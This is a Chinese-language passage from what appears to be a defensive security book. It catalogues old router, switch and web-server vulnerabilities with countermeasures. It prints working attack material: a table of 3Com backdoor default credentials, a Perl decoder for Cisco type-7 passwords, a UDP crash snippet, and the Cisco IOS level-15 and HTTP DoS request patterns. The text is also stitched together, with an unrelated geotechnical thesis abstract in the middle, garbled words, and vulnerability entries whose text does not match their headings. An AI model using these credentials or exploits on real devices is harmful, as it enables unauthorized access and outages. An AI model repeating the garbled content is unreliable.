无线网络厂商以多种方式实现 RADIUS。例如，Avaya 的无线接入服务器内置了 RADIUS 客户端。另一方面，Agere 则强调其与其他厂商 RADIUS 服务器的兼容性。

无论关于 WLAN 的具体计划如何，即将出台的 802.1x 认证标准都值得评估，因为它在有线和无线环境中都能提供潜在的益处。该标准使得在个体获得网络访问权限之前要求其进行认证成为可能。这解决了"驾车入侵"（wardriving）问题，即任何在您网络范围内的人都可以轻易获得访问权限。

> "借助 802.1x，您的 RADIUS 服务器可以动态创建密钥，然后将其下发到接入点，接入点再将密钥发送给客户端，并使用唯一的密钥集与该客户端通信，"无线以太网兼容性联盟（WECA）副主席 Dennis Eaton 解释道。

TruSecure 公司（www.trusecure.com）的高级技术总监 Robert Moskowitz 是电气电子工程师学会（IEEE）团队的一员，该团队正在开发针对众所周知的 Mason 的 WEP 缺陷的修复方案，他建议使用 802.1x 认证。但 Moskowitz 还会增加数据包认证的要求。这在公共热点场所尤为重要，例如机场候机室或咖啡馆，攻击者可以轻易观察用户向其服务提供商进行认证的过程，捕获 MAC 和 IP 地址。

> 如果用户未正确注销，Moskowitz 警告说，"攻击者只需设置用户名、MAC 地址和 IP 地址，他或她就成为该用户——至少在网络看来是这样。"

单个数据包的认证将揭露这一诡计，即使接入点可能被骗过，因为密钥不会匹配。

包括 Cisco、3Com、Enterasys 和 Microsoft（XP 包含 802.1x 支持）在内的几家公司正在采用该协议，Funk Software（www.funk.com）作为商业 RADIUS 服务器开发商，于 2001 年 10 月在其最新版本中宣布了 802.1x 支持。

### 为了安全起见使用 VPN

VPN 是越来越多企业的远程访问选择，可以说是阻止无线传输入侵的最佳方式。许多厂商提供针对无线安全优化的 VPN。在安全架构的企业中，VPN 保护数据传输并确保强认证。性能会有所下降，但保护无线流量通常值得这种权衡。

驾车入侵者将转向别处，因为 IPSec——许多 VPN 应用中使用的加密协议——将阻止 AirSnort 等程序。

使用 VPN 并在 DMZ 中部署无线接入点，可以有效地隔离 WLAN，确保只有授权的无线流量才能访问网络。在这种架构中，VPN 网关放置在无线接入点之后。这提供了与 VPN 为任何使用拨号或高速有线连接的远程用户提供的相同安全性。由于无线 PC 与电缆调制解调器或 DSL 等其他远程客户端一样始终保持连接，专家强烈建议使用个人防火墙以尽可能阻止更多攻击。可以添加 RADIUS 服务器来认证无线 VPN 客户端，然后才允许其通过接入点。

对于已经为远程用户部署了 VPN 的组织来说，整合无线接入很容易，用户将面对熟悉的界面和流程。在这种环境中，最简单的配置就是将无线接入点放置在同一网段上冲突上。

如果 VPN 仅用于无线接入，将所有接入点集中在单个网段可以简化用户的漫游问题，并可以更容易地控制无线流量——例如，在夜间特定时间关闭接入，或仅允许 VPN 流量通过。

厂商提供独立解决方案以及与防火墙和路由器的集成方案。如果 VPN 的实现仅用于支持 WLAN 接入，可以考虑将 VPN 功能与接入点本身集成的解决方案。

随着无线局域网越来越普及，厂商已开始为设备包含 VPN 支持。Microsoft 已在其最新的 PocketPC 2002 版本中添加了自家的 VPN 客户端。Certicom 提供了 movianVPN，这是一种支持 802.11 网络的专业手持终端解决方案，并且与 Microsoft 的产品不同，它支持多个网关。

## 总结

我们讨论了老虎技术（tiger techniques），它们与第一阶段中描述的已知和隐藏端口及服务相关，并在本阶段实施了作为渗透防御机制的关键保护例程。请继续进入下一阶段，我们将重点讨论保护外围硬件和服务守护进程。我们将详细研究针对最常见黑客攻击的实际老虎团队对抗措施。

## 岩土工程中的统计决策

- 贝叶斯方法

作者：Timothy Scott Maldonado
理学学士，俄勒冈大学，2011 年
理学硕士，科罗拉多矿业学院，2014 年

## 摘要

本论文提出了一个使用贝叶斯方法进行岩土工程统计决策的框架。其目标是为工程师提供工具，以解决土壤特性和模型预测中的不确定性问题。贝叶斯方法允许用新信息更新先验知识，形成表征剩余不确定性的后验分布。论文展示了多种应用，包括表征土壤特性的不确定性、决策分析和模型选择。重点在于模型选择的过程，以及将模型参数的不确定性表达为预期响应。论文将证明，任何模型总是可以改进的，重要的是避免选择仅在特定条件下有效的模型。这些方法基于所有分布都可以与概率相关联的前提。本工作还将强调将所有模型包含在集合中以传播不确定性的优势。为了说明所提出的框架在岩土工程中的有效性，特别是边坡稳定性方面，论文展示了两个案例研究。一个案例研究使用了 Ross GP 矿（美国德克萨斯州）仪器化边坡的数据，另一个使用了现场尺度堤坝室内实验的数据。结果表明，贝叶斯框架不仅能够更好地表征不确定性，而且可以恰当地解决模型选择问题。研究还证明，使用贝叶斯方法有助于量化不同类型测试信息的价值，这可用于优化场地勘察方案。

论文指导教授：Ning Lu 教授和 Roman Hryciw 教授

## 老虎团队秘籍

我们锁定安全措施的下一阶段将聚焦于非常具体的目标漏洞利用：我们将研究锁定外围硬件和服务守护进程的方法，以对抗针对它们的漏洞利用攻击（有关实际漏洞利用的更多细节，请参阅 *Hack Attacks Revealed, Second Edition*）。具体而言，我们将讨论网关和路由器、互联网服务器守护进程、操作系统以及防火墙和代理。

# 第五章

## 锁定外围硬件和服务守护进程

本章揭示了锁定程序和老虎团队秘籍，您可以将它们用作针对常见网关和路由器、互联网服务器守护进程、操作系统以及代理和防火墙上的特定漏洞利用的对抗措施。但在深入讨论如何保护这些设备之前，让我们先花点时间回顾它们各自的功能和用途：

- **网关和路由器。** 网关是作为多个网络之间 doorway 的网络节点；如今使用的网关约有 90% 主要用作接入路由器；因此，它们是黑客攻击的热门目标。

- **互联网服务器守护进程。** Web 服务器守护进程（HTTPd）是一个程序，它通过 TCP 端口 80 进行监听，并接受按照超文本传输协议（HTTP）提出的信息请求。因此，Web 浏览器将被"提供" HTML 格式的页面。

- **操作系统。** 操作系统本质上是计算机系统运行所需的软件。计算机依赖操作系统来管理所有安装和连接到它的程序和硬件；因此，它是计算机上运行的最重要的软件。

- **代理和防火墙。** 代理是一种计算机程序，充当用户 Web 浏览器与互联网上 Web 服务器之间的联络。

在服务器上安装此软件后，该代理可被视为"网关"，将用户的内部网络与外部网络隔开。代理主要在应用层进行控制，作为一种防火墙，过滤所有传入数据包，保护网络免受未经授权的访问。因此，可靠的防火墙软件通过状态检测过滤器实施安全策略来控制网络访问，以阻止或允许对内部网络数据的访问。

> 此处描述的对策可作为针对当前流行的一些漏洞利用的防护。但很可能还有数千种其他漏洞；因此，定期向产品供应商查询新补丁和版本升级是良好的实践。大多数供应商的网站都设有专门用于此目的的网页；例如，www.sco.com/security 是SCO的咨询更新站点（见图5.1）。



### 网关和路由器

在本章开头，我们将介绍针对主要作为接入路由器使用的网关的虎队程序，如前所述，这类网关约占当今使用量的90%。我们将查看以下公司的产品：3Com、Ascend、Cabletron、Cisco、Intel 和 Nortel/Bay。

#### 3Com

正如*《黑客攻击揭秘》第二版*中详述的，针对3Com（www.3com.com）的常见漏洞利用包括：HiPer ARC卡拒绝服务攻击、HiPer ARC卡登录、过滤、主密钥密码、NetServer 8/16 DoS攻击和Palm Pilot Pro DoS攻击。有关3Com漏洞修复的更多信息，请查看该公司的新型智能知识库，网址为 http://knowledgebase.3com.com（见图5.2）。



##### HiPer ARC卡拒绝服务攻击

**概要：** 3Com HiPer ARC容易受到nestea和1234 DoS攻击。

**黑客状态：** 系统崩溃。

**漏洞：** HiPer ARC运行系统版本4.1.11/x。

**入侵：** 运行系统版本4.1.11的3Com HiPer ARC容易受到某些DoS攻击，导致卡直接崩溃并重启。注意：3Com/USR的IP协议栈历来对特定类型的DoS攻击不太具抵抗力，例如*Nestea.c*变种（最初由rhino9的humble编写）。

**对策：** 如果您的3Com硬件容易受到此攻击，请联系供应商获取更新和补丁。3Com已在Total Control NetServer卡代码库中修复了此bug。作为针对利用telnet服务的DoS攻击的临时补救措施，可以将HiPer ARC的telnet访问限制为受信任主机列表。简单的修复方法是升级到版本4.1.27-3或4.2.32-1。

##### HiPer ARC卡登录

**概要：** HiPer ARC卡在默认"adm"账户方面存在潜在弱点。

**黑客状态：** 未经授权的访问。

**漏洞：** HiPer ARC卡版本4.1.x修订版。

**入侵：** 3Com为HiPer ARC卡（v4.1.x修订版）开发的软件存在潜在安全威胁。上传软件后，将存在一个名为adm的登录账户，且无密码。自然，安全策略规定要从配置中删除默认的adm登录。然而，一旦配置完成设备，需要保存设置并重启设备。此时，adm登录（无需密码）仍然保持活跃状态，且无法删除。

**对策：** 要停止"adm"登录，必须将其禁用。注意：*不要*尝试删除该登录来阻止此漏洞。

##### 过滤功能

**概要：** 使用拨号连接进行过滤并不有效。基本上，用户可以拨入，收到"主机"提示，然后输入任何主机名而无需实际的身份验证程序。因此，系统会记录连接被拒绝的报告。

**黑客状态：** 未经授权的访问。

**漏洞：** 带有Total Control NETServer卡v.34/ISDN及帧中继v3.7.24的系统。AIX 3.2。

**入侵：** Total Control机架常见于许多终端服务器中，因此当有人拨入ISP时，他或她可能正在拨入其中一台服务器。该漏洞涉及以"host:"或类似提示响应的系统。当端口设置为"set host prompt"时，访问过滤器通常会被忽略：

```
> sho filter allowed_hosts
1 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.161/32 tcp dst eq 539
2 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.165/32 tcp dst eq 23
3 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.106/32 tcp dst eq 23
4 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.168/32 tcp dst eq 540
5 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.168/32 tcp dst eq 23
6 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.109/32 tcp dst eq 3030
7 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.109/32 tcp dst eq 3031
8 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.109/32 tcp dst eq 513
9 deny  0.0.0.0/0 0.0.0.0/0 ip
```

攻击者可以在"host:"提示处两次输入主机名，然后获得指向目标主机的telnet会话。此时，攻击者获得未经授权的访问，例如：

```
> sho ses
S19  hacker.target.system. Login  In  ESTABLISHED    4:30
```

即使获得了访问权限，系统日志通常会报告以下内容：

```
XXXXXX remote_access: Packet filter does not exist. User hacker... access
denied.
```

**对策：** 尽管专家对此漏洞利用不屑一顾，但据报道，最新升级完全解决了此问题。

##### *主密钥密码*

**概要：** 某些3Com交换机通过互联网传播的若干"主密钥"密码为黑客打开了大门。

**黑客状态：** 未经授权访问配置。

**漏洞：** CoreBuilder 2500、3500、6000和7000，或SuperStack II交换机2200、2700、3500和9300均受影响。

**对策：** 可以以*debug*身份登录，然后输入命令*system password debug*来修改密码。随后系统将提示您输入新密码并确认。请务必查看3Com的知识库，了解此后门漏洞的最新更新。

##### NetServer 8/16 DoS攻击

**概要：** NetServer 8/16容易受到nestea DoS攻击。

**黑客状态：** 系统崩溃。

**漏洞：** NetServer 8/16 v.34，操作系统版本2.0.14。

**入侵：** 据3Com称，主密钥密码被一位互联网用户"意外发现"，随后在互联网上公布。显然，3Com工程师保留这些密码以备紧急情况使用，例如密码丢失。

| 设备 | 凭据 |
|--------|-------------|
| CoreBuilder 6000/2500 | 用户名: debug 密码: synnet |
| CoreBuilder 7000 | 用户名: tech 密码: tech |
| SuperStack II Switch 2200 | 用户名: debug 密码: synnet |
| SuperStack II Switch 2700 | 用户名: tech 密码: tech |

CoreBuilder 3500和SuperStack II Switch 3900及9300也具有这些机制，但当密码被修改时，特殊登录密码会更改为与管理员级别密码匹配。

**对策：** 单次版本升级即可缓解此漏洞利用并防止其其他变种。

##### Palm Pilot Pro DoS攻击

**概要：** Palm Pilot容易受到nestea DoS攻击。

**黑客状态：** 系统崩溃。

**漏洞：** Palm Pilot Pro，操作系统版本2.0.x。

**入侵：** 3Com的PalmPilot Pro运行系统版本2.0.x时，容易受到*nestea.c* DoS攻击，导致系统崩溃并需要重启。

**对策：** 请联系Palm支持获取软件补丁或操作系统升级，电话：847-676-1441；亚洲地区：1-800-678-515。

#### Ascend/Lucent

本节涵盖针对Ascend/Lucent（www.ascend.com）常见漏洞利用的对策，包括扭曲UDP攻击、管道密码拥塞和MAX攻击。

##### **扭曲UDP攻击**

**概要：** Ascend路由器网络互联操作系统中的一个缺陷使得通过某些扭曲的UDP数据包可以使机器崩溃。

**黑客状态：** 系统崩溃。

**漏洞：** Ascend Pipeline和MAX产品。

**入侵：** 虽然可以通过图形界面修改Ascend配置，但此配置器使用特殊的UDP数据包在网络上定位Ascend路由器。Ascend路由器监听广播（发送到"discard"端口9的唯一UDP数据包）并用另一个包含路由器名称的UDP数据包响应。通过向Ascend路由器的discard端口发送特别扭曲的UDP数据包，攻击者可以使路由器崩溃。使用TigerBreach Penetrator进行安全分析时，您可以验证连接以测试此缺陷。以下显示了可修改为UDP数据包传输的程序示例。

##### **Crash.bas**

```
Option Explicit

Private Sub Crash()
    Socket1.RemoteHost = txtIP.Text
    Socket1.SendData txtName.Text + "Crash!!!"
End Sub
```

**对策：** 对此问题的即时缓解措施是过滤掉发往UDP discard端口（9）的数据包。此外，由于Ascend路由器上的SNMP"写"访问等同于完全的管理员访问，请确保SNMP社区名称不可能被猜到。为此，请使用第4章中介绍的TigerCrypt来帮助制定命名方案。Ascend路由器的SNMP配置可通过菜单系统访问。

##### **密码拥塞/MAX攻击**

**概要：** 具有挑战性的远程telnet会话可能会使Ascend路由器会话限制拥塞，导致系统拒绝进一步尝试。攻击者还可以通过在发送非零长度TCP偏移数据包时telnet到端口150来远程重启Ascend MAX设备。

**黑客状态：** 严重拥塞/系统重启。

**漏洞：** Ascend Pipeline产品/MAX 5x产品。

**入侵：** 连续的远程telnet认证尝试可能会使系统会话限制达到最大值，导致路由器拒绝合法会话。


**对策：** 对此类问题的缓解措施可以通过过滤远程 telnet 认证来实现。如本出版物前文所述，只有本地授权网段才应被授权进行合法会话。

#### Cabletron/Enterasys

此处描述的对策针对常见的 Cabletron（现 Enterasys）(www.enterasys.com) 漏洞利用，包括 CPU 阻塞和 ARP DoS 攻击。

##### CPU Jamming

**概要：** SmartSwitch Router (SSR) 产品系列容易受到 CPU 泛洪攻击。

**攻击状态：** 通过泛洪干扰处理。

**漏洞：** SmartSwitch Router (SSR) 系列。

**入侵：** 攻击者只需通过发送大量（TTL=0）的数据包，目标 IP 地址全为零，即可泛洪 SSR 的 CPU 进程。生存时间（TTL）在 IP 报头中定义为数据包在被丢弃前可以经过的跳数。一个提供此技术格式的良好可修改编码示例，最初受安全爱好者和程序员 Jim Huff 的启发，在 Icmpflaod.bas 中提供（来源于 *Hack Attacks Revealed, Second Edition*）。

**对策：** 目前尚未发布。

### DoS Attack

**概要：** SmartSwitch Router Manning ewle CG 存在 DoS 漏洞

**攻击状态：** 通过泛洪干扰处理。

**漏洞：** 运行固件版本 2.x 的 SSR 8000。

**入侵：** 这个瓶颈似乎出现在 SSR 的 ARP 处理机制中。发送大量 ARP 请求会限制 SSR，导致路由器停止处理。匿名攻击者通过定制 *icmp.c* 等程序（可从 www.TigerTools.net 获取）使 SSR 崩溃。

**对策：** 联系您的产品供应商将 SSR 固件升级到 3.x 版本。

#### Cisco

本节涵盖的对策针对（www.cisco.com）Cisco 产品漏洞利用，包括一般 DoS 攻击、HTTP DoS 攻击、IOS 密码破解器漏洞、NAT 攻击和 UDP 扫描攻击。查看 Cisco 的 UniverCD 以获取整个产品线的文档，网址为 www.cisco.com/univercd/home/home.htm（见图 5.3）。

##### IOS HTTP Server Authentication Vulnerability

**概要：** Cisco IOS HTTP 漏洞可能导致系统完全沦陷。

**攻击状态：** 特权访问，系统完全沦陷。

**漏洞：** 运行启用 HTTP 服务器的 Cisco IOS 且使用本地认证数据库的系统。

**入侵：** 远程攻击者可以构造恶意 URL 到符合上述标准的 Cisco 设备，这可能使攻击者能够以最高权限（level 15）执行命令。构造的 URL 类似于 http://<address>/level/XX/exec/，其中 XX 为 16–99。

**对策：** 如有可能，升级 Cisco IOS。查看 Cisco 网站以确定哪些 IOS 版本不包含此漏洞。也可以禁用 HTTP 服务以防止攻击者利用。对于防火墙后的 Cisco 设备，也可以在防火墙上阻止 HTTP 服务（通常为 TCP 端口 80）以降低风险。

##### *General DoS Attack*

**概要：** Cisco 系列接入产品存在 DoS 漏洞。

**攻击状态：** 未经授权访问和/或系统崩溃。

**漏洞：** 以下产品：

- - AS5200、AS5300 和 AS5800 系列接入服务器
- 7200 和 7500 系列路由器
- ubr7200 系列线缆路由器
- 7100 系列路由器
- 3660 -forwarddone 路由器
- 4000 和 2500 系列路由器
- SC3640 系统控制器
- AS5800 系列语音网关产品
- AccessPath LS-3、TS-3 和 VS-3 接入解决方案产品

**入侵：** 在路由器准备好接受之前，持续使用 telnet ENVIRON 选项进行扫描会导致系统崩溃。此外，向路由器的 syslog 端口（UDP 端口 514）发送数据包也会导致其中一些系统崩溃。常见的 DoS 攻击通常是针对诊断端口的 TCP SYN 泛洪和 UDP 泛洪。TCP SYN 攻击由大量伪造的 TCP 连接建立消息组成，目标是主机上的特定服务。请记住，较旧的 TCP 实现无法处理大量欺骗数据包，将不允许访问受害服务。最常见的 UDP 泛洪形式是由大量伪造的 UDP 数据包组成的攻击，目标是网络设备上的诊断端口。这种攻击也被称为 Soldier *pepsi.c* 攻击。

**对策：** 目前没有特定的修复方案。作为变通方法，过滤受影响的 TCP 和 UDP 端口。

##### HTTP DoS Attack

**概要：** Cisco 系列接入产品存在 HTTP DoS 漏洞。

**攻击状态：** 未经授权访问和/或系统崩溃。

**漏洞：** 接入路由器。

**入侵：** Cisco 路由器具有允许管理员远程监控的内置功能。当此功能启用时，只需发出简单请求就可能对路由器发起 HTTP DoS 攻击。此请求将导致路由器停止响应，直到设备重置：http://%%。

**对策：** 为缓解此问题，只需使用以下命令禁用 HTTP 管理：

```
no ip http server
```

##### IOS Password Cracker

**概要：** Cisco IOS 密码存在潜在暴露风险。

**攻击状态：** 密码破解。

**漏洞：** 接入路由器。

**入侵：** 仍在运行较旧 IOS 10.x 版本的 Cisco 路由器容易受到 *CrackIOS.pl* 的密码破解攻击。

###### CrackIOS.pl

```
@xlat = ( 0x64, 0x73, 0x66, 0x64, 0x3b, 0x6b, 0x66, 0x6f, 0x41,
         0x2c, 0x2e, 0x69, 0x79, 0x65, 0x77, 0x78, 0x6f, 0x72,
         0x6b, 0x4c, 0x4b, 0x44, 0x48, 0x53 , 0x55, 0x42 );

while (<>) {
	if (/(password|md5)\s+7\s+([\da-f]+)/io) {
		if (!(length($2) & 1)) {
			$ep = $2; $dp = "";
			($s, $e) = ($2 =~ /^(..)(.+)/o);
			for ($i = 0; $i < length($e); $i+=2) {
				$dp .= sprintf
	"%c",hex(substr($e,$i,2))^$xlat[$s++];
			}
			s/$ep/$dp/;
		}
	}
}
```

```
        }
        print;
}
# eof
```

**对策：** 补救措施有两方面：首先，升级到最新的 IOS；其次，使用以下命令启用密码加密：

```
service password-encryption
```

### NAT Attack

**概要：** IOS 软件中的错误导致网络地址转换（NAT）和输入访问过滤器之间的数据包泄漏。

**攻击状态：** 数据包泄漏。

**漏洞：** 以下产品：

- - 17xx 系列路由器
- 26xx 系列路由器
- 36xx 系列路由器
- AS58xx 系列路由器（不包括 AS52xx 或 AS53xx）
- 72xx 系列路由器（包括 ubr72xx）
- RSP70xx 系列路由器（不包括非 RSP 70xx 路由器）
- 75xx 系列路由器
- Catalyst 5xxx 路由交换模块（RSM）

**入侵：** 软件错误在某些运行 12.0 版本 Cisco IOS 软件的 Cisco 路由器（包括 12.0、12.0S 和 12.0T，所有版本最高到 12 villas.04）中 NAT 和输入访问列表处理之间造成安全漏洞。这导致在某些 NAT 配置中输入访问列表过滤器"泄漏"数据包。

**对策：** 正在为此漏洞创建软件修复程序，但可能尚未适用于所有软件版本。如果您的配置文件中不包含在与"ip nat inside"或"ip nat outside"相同的接口上使用"ip access-group in"命令，则您不受影响。不受此漏洞影响的 Cisco 设备包括：

- - 8xx 系列路由器
- ubr9xx 系列路由器
- 10xx 系列路由器
- 14xx 系列路由器
- 16xx 系列路由器
- 25xx 系列路由器
- 30xx 系列路由器
- mc38xx 系列路由器
- 40xx 系列路由器
- 45xx 系列路由器
- 47xx 系列路由器
- AS52xx 系列路由器
- AS53xx 系列路由器
- Catalyst 85xx 交换路由器
- GSR12xxx 千兆交换路由器
- 64xx 通用接入集中器
- AGS/MGS/CGS/AGS+ 和 IGS 路由器
- LS1010 ATM 交换机
- Catalyst 2900XL LAN 交换机
- DistributedDirector
- 7xx 拨号路由器（750、760 和 770 系列）
- Catalyst 19xx、28xx、29xx、3xxx 和 5xxx LAN 交换机
- IGX 和 BPX 系列中的 WAN 交换产品
- PIX 防火墙
- LocalDirector
- 缓存引擎

### UDP Scan Attack

**概要：** 对端口 514 执行 UDP 扫描会导致某些运行 IOS 软件版本 12.0 的路由器系统崩溃。

**攻击状态：** 系统崩溃。

**漏洞：** IOS 4000 软件（C4000-IK2S-M），版本 12.0(2)T 和 IOS 2500 软件（C2500-IOS56I-L），版本 12.0(2)。

**入侵：** 对 UDP 端口 514 执行 UDP 扫描会导致某些运行 IOS 软件版本 12.0 的路由器系统崩溃。作为内部日志系统的一部分，端口 514（通过前端保护屏障的远程可访问性）对各种类型的 DoS 攻击敞开大门。已确认使用 *Nmap* (www.insecure.org) UDP 端口扫描模块导致的崩溃报告。

**对策：** 目前没有特定的修复方案。作为变通方法，过滤 UDP 端口 514。


 Intel

本节介绍针对 Intel Express 路由器（www.intel.com）的 DoS 攻击的防范措施。

#### DoS 攻击

**概要：** 据报道，Intel Express 路由器容易受到远程 ICMP 分片和超大 ICMP 数据包分析的远程攻击。

**攻击状态：** 未授权访问和/或系统崩溃。

**漏洞：** Intel Express 路由器。

**入侵方式：** Intel Express 路由器系列容易受到远程 ICMP 分片和超大 ICMP 数据包的攻击。在这两种情况下，入侵可以远程执行；由于 ICMP 数据包通常被允许到达路由器，因此该漏洞尤其危险。

**防范措施：** 尚无具体的修复方案。作为临时解决方法，请过滤发往任何 Intel Express 路由器的 ICMP 流量。

#### Nortel/Bay

本节介绍针对 Nortel/Bay（www.nortelnetworks.com）路由器使用的 echo-request 泛洪攻击的防范措施。

##### 泛洪攻击

**概要：** Nortel/Bay Access 路由器特别容易受到 ICMP echo request 泛洪攻击。

**攻击状态：** 广播风暴导致的严重网络拥塞。

**漏洞：** LAN 和 WAN 访问网关。

**入侵方式：** *smurf* 攻击是针对访问路由器的另一种网络层泛洪攻击。使用 smurf 攻击时，攻击者向 IP 广播地址发送大量 ICMP 流量，并伪造受害者的源地址。在大型广播网段中，可能有数百台机器回复每个数据包，导致大量广播风暴，从而使网络泛洪。在广播风暴期间，消息在网络中传播，导致对这些消息的响应，然后是对响应的响应，形成暴风雪效应。这些风暴会导致严重的网络拥塞，能够摧毁最坚固的互联网硬件。TFreak 编写的 *smurf.c* 程序通过伪造来自某台主机的 ICMP 数据包并将其发送到各种广播地址来引发广播风暴，从而从每个数据包生成对该主机的复合回复。

**防范措施：** 禁用对 ICMP echo request 的响应。请查阅您产品的操作指南，了解过滤此 echo request 的具体方法。

# 互联网服务器守护进程

在本节中，我们将学习针对《Hack Attacks Revealed, Second Edition》中介绍的以下互联网服务器守护进程的漏洞利用的 tiger team 程序：Apache HTTP、Lotus Domino、Microsoft Internet Information Server、Netscape Enterprise Server、Novell Web Server 和 O'Reilly WebSite Professional。

## Apache HTTP

此处描述的防范措施针对以下针对 Apache HTTP 守护程序（www.apache.org）的常见漏洞利用：CGI 窃取、目录列表和 DoS 攻击。

### CGI 窃取

**概要：** 黑客可以下载并查看 CGI 源代码。

**攻击状态：** 代码盗窃。

**漏洞：** Apache（SuSE 6.4 中的 1.3.12 版本）。

**入侵方式：** Apache HTTP 服务器守护程序的默认安装和配置使攻击者能够直接从互联网下载 CGI 脚本。存储在 /cgi-bin/ 目录中的脚本可以被访问、下载和查看，而不是仅在主机上执行。

**防范措施：** 将守护程序升级到 1.3.12 之后的版本。

### 目录列表

**概要：** 黑客可以利用 Apache Win32 漏洞获取未授权的目录列表。

**攻击状态：** 未授权的目录列表。

**漏洞：** Apache（版本 1.3.3、1.3.6 和 1.3.12）、Win32。

**入侵方式：** 当路径过长时，Apache 在搜索 HTTP 启动文件（例如 index.html）时会出现此漏洞。结果是未授权的目录列表，无论启动文件是否存在。

**防范措施：** 为立即缓解此问题，请禁用 Indexes 选项。以下是要应用到 Apache CVS 树的补丁：

```
RCS file: /home/cvs/apache-1.3/src/os/win32/util_win32.c,v
retrieving revision 1.33
retrieving revision 1.34
diff -u -r1.33 -r1.34
--- apache-1.3/src/os/win32/util_win32.c	1999/02/18 11:07:14	1.33
+++ apache-1.3/src/os/win32/util_win32.c	2000/06/02 16:30:27	1.34
@@ -580,7 +580,7 @@
	} ;

	/* Test 1 */
-	if (strlen(file) > MAX_PATH) {
+	if (strlen(file) >= MAX_PATH) {
		/* Path too long for Windows. Note that this test is not valid
		 * if the path starts with ///?/ or
```

### DoS Attack

**概要：** 黑客可以导致严重的 CPU 拥塞，从而导致拒绝服务。

**攻击状态：** 服务阻塞。

**漏洞：** 1.2.5 之前的 Apache HTTP 服务器版本。

**入侵方式：** 攻击者可以通过在 URL 中使用大量斜杠（/）发起多个同时进行的 HTTP 请求，导致严重的 CPU 拥塞，从而导致拒绝服务。

**防范措施：** 将守护程序升级到当前版本（1.2.5 及更高版本）。

## Lotus Domino

此处给出的防范措施针对 Lotus Domino（http://domino.lotus.com）的远程黑客攻击。

### 远程黑客攻击

**概要：** 可供查看的文档可能通过互联网被编辑。

**攻击状态：** 内容篡改。

**漏洞：** 所有平台。

**入侵方式：** 攻击者可以利用 Domino 中文档的访问权限，这些访问权限允许用户编辑功能。通过修改 URL，浏览器将发送 "EditDocument" 而不是 "OpenDocument"，因此漏洞位置会显示文档的编辑视图，允许攻击者修改文件数据。

**防范措施：** Lotus 强调这不是软件中的错误，而是使用中的本地配置错误，并建议所有受影响的配置都应修改，以包含安全方案，防止外部用户更改记录。

## Microsoft Internet Information Server

对于 Microsoft 的 Internet Information Server（IIS）（www.microsoft.com/iis），我们将研究针对以下漏洞利用的防范措施：DoS 攻击、代码盗用和特洛伊木马上传。

### PHP 中的多个漏洞

**概要：** 运行 PHP 脚本语言的 Web 服务器——包括但不限于 IIS、Apache、Netscape/iPlanet、Caudium 和 OmniHTTPd——可能允许入侵者执行任意代码。

**攻击状态：** 未授权访问和拒绝服务（DoS）。

**漏洞：** PHP 是一种脚本语言，可用于广泛的 Web 平台。语言中的 php_mime_split 函数可能允许入侵者获得特权访问（Web 服务器的特权）。不速之客随后可以在设备上执行任意代码，导致诸多问题。

**入侵方式：** 利用 Web 服务器的特权，潜在的作恶者可以执行任意代码，这可能导致执行意外操作，或甚至导致 Web 服务器不可用，这被归类为 DoS 攻击。

**防范措施：** 建议升级到 4.1.2 版本。如果无法升级，可以根据您运行的 PHP 版本（3.0 或更高版本）获取补丁。如果应用补丁不可行，您可以在 php.ini 文件中使用 file_uploads=off 命令禁用文件上传支持。当前运行 CVS 4.20-dev 版本的用户不受影响。

### 红色代码蠕虫

**概要：** Code Red 蠕虫可能导致运行启用 URL 重定向的 IIS 4.0 的系统崩溃。

**攻击状态：** 拒绝服务（DoS）、系统停止/重启。

